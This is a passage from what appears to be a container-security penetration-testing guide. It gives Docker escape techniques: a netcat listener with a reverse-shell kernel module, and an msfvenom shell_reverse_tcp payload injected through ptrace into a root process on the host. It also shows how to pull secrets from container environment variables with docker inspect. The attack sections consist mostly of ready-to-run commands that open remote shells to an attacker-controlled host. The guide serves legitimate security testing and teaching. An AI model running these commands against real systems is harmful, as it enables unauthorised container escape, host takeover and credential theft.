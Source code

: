 - set up listener `nc -nlvp 8888`
- load reverseshell kernel module - `insmod reverseshell_module.ko`

Kernel module commands
- `lsmod` - list modules
- `insmod` - load module
- `rmmod` - unload modules

#### 1.6.3.3. PoC Reverse Shell Host PID
If the container is running with `--pid=host` it will be possible to view processes on the host, this can be confirmed with the `top` command. If the cap_sys_ptrace capability is available it will be possible to inject code into the address space of any host process:

- Clone the linux injector: 
```
git clone https://github.com/dismantl/linux-injector
```
- Create a payload:
```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw -o payload.bin
```

- Copy the payload and injector to the container
- Make payload executable
- Start Listener
- identify process running as root on host
```
ps auxx | grep root
```
- exploit the payload
```
./injector <pid> payload.bin
```
### 1.6.4. Searching for Secrets
Secrets management is a challenge within docker and devops in general. There are many recommended ways to store secrets however its still common to find secrets embedded within insecure locations:

- dockerfile
- source code
- environmental variables
- text files
- etc..
  
In this case anyone with access to the container can read these serets.

Additionally, if you are able to access the host, you may be able to find secrets hidden in other containers

-  Docker inspect:
```
docker inspect database -f "{{json .Config.Env}}"
```
- Docker Secrets: https://github.com/JOSHUAJEBARAJ/docker-secrets
- Detect Secrets: https://github.com/ibm/detect-secrets

## 1.7. Automated Assessment tools
- [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) - Privilege escalation scanner which can also be used to enumerate containers.  
  